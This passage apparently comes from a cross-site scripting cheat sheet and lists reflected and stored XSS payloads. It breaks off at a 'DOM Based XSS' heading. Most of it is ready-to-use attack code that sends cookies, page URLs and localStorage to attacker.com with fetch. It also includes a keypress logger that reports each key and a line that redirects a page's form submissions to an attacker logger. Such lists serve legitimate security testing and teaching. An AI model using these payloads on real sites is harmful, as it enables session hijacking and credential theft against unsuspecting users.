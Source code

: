 ## Attack Vectors

### Reflected XSS

XSS payload is reflected back in the server's immediate response:

```javascript
# Basic Script Injection
<script>alert(document.cookie)</script>
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

# Event Handler Injection
<img src=x onerror="alert(document.cookie)">
<body onload="fetch('https://attacker.com?cookie='+document.cookie)">

# JavaScript Protocol
javascript:alert(document.cookie)
javascript:fetch('https://attacker.com?cookie='+document.cookie)
```

### Stored XSS

Payload is stored on the target server and executed when users visit a page:

```javascript
# Data Exfiltration
<script>
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      url: window.location.href,
      localStorage: localStorage
    })
  });
</script>

# Keylogger Injection
<script>
  document.onkeypress = function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
  }
</script>

# Form Hijacking
<script>
  document.forms[0].action = 'https://attacker.com/logger';
</script>
```

### DOM Based XSS
